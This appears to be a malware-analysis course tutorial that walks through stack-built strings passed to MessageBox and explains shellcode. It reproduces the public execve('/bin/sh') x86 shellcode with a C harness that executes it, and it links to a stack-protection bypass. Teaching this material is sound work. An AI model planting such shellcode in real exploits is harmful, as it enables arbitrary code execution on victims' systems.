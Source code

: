# Tutorial 5 

WEL COME BACK AFTER ASG 1

![yves come](./Assets/yves_comehere.gif)

## Menu

[Qn 1](#q1)

[Qn 2](#q2)

[Qn 3](#q3)

Alright let's get started ヽ(o＾▽＾o)ノ


### <a name="q1">Qn 1</a>

At the start of this routine, we see a lot of push into the stack 
```
00010000	6A 00			    push		0
00010002	68 72 6C 64 21		push		0x21646c72
00010007	68 6F 20 57 6F		push		0x6f57206f
0001000C	68 48 65 6C 6C		push		0x6c6c6548
```
Stack be liek
```
 ^      6c6c6548       <---ESP
 |      6f57206f
 |      21646c72
 |      0
```
That looks like a null terminator right there. So let's ascii this (remember the endianess of the stack)
```
Input: 48 65 6c 6c 6f 20 57 6f 72 6c 64 21
Output: Hello World! 
```

```
00010011	8B C4			mov		eax, esp 
```
don't know what's doing here... probably need to wait a bit. Save the current stack pointer to eax

Some more pushing and then store stack frame to edx 

```
 ^      33333165       <---ESP=EDX
 |      37000000       <--- auto fill with 0 -- double as null terminator
 |      6c6c6548       <---EAX
 |      6f57206f
 |      21646c72
 |      0
```
Storing stack frame again. 

Final call to the boss function
```
0001001C	6A 00			push		0
0001001E	50				push		eax
0001001F	52				push		edx
00010020	6A 00			push		0
……          ……				mov		    eax    , <user32.MessageBox>
……		    ……				call  		eax
```
We see that there are four arguments pushed to the stack, and two of them are the pointers to the string we created just now. Remember that arguments are pushed from right to left, so let's refer to user32.MessageBox function definition, taken from MS [docs](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messagebox)

```
int MessageBox(
  HWND    hWnd,
  LPCTSTR lpText,
  LPCTSTR lpCaption,
  UINT    uType
);
```
Hence we can tell that uType = 0, lpCaption=eax, lpText=edx,hwnd = 0 (no handle) 

So we have 
```
user32.MessageBox(0,'e1337','Hello World!,0)
```
Why the cryptic e1337? It's an urban legend dating back 2 decades [here](https://www.urbandictionary.com/define.php?term=e1337). 

### <a name="q2">Qn 2</a>

This is actually a sample of SHELLCODE. The whole idea is that we push instructions into the stack and then run the stack. 

The most popular shellcode would be the execve("/bin/sh") whose sample I have kindly borrowed below from shell-storm{dot}org. 

C code:
```
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```
The shellcode (payload):
```
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```

The shellcode is often written in assembly and hence can be executed directly on stack, which is most obvious by the 

```
push eax, esp
call eax 
```
In this case, call eax will put the esp into EIP, effectively making the next instruction running from the stack just being built. 

In this case, the shellcode will actually built the four parameters we saw just now in question 1. Once it finishes, it will jump back to the original routine and call user32.MessageBox. 

Those who are interested, can read "The Shellcoder's Handbook" by Anley and Felix. 

### <a name="q3">Qn 3</a>

Malware often use shellcode to run their payload. However, as we have learnt in CE4062 Computer Security, there are measures against this such as making the stack not executable (by checking if EIP went into the stack range). 

However, in 2002, phrack already know more sophisticated method to bypass this. [here](http://phrack.org/issues/56/5.html) is the issue focusing on breaking the stack even with XOR canary in that magazine. (Proceed at your own risk)

That's all for this tutorial! Shellcode is a very interesting technique and most malware payload use this. As a Malware Analysis we should know about it (actually most of them is copied off shell-storm{dot}.org)

![yves](./Assets/yves.gif)

See you next week!

[Back to Main Menu](./../)

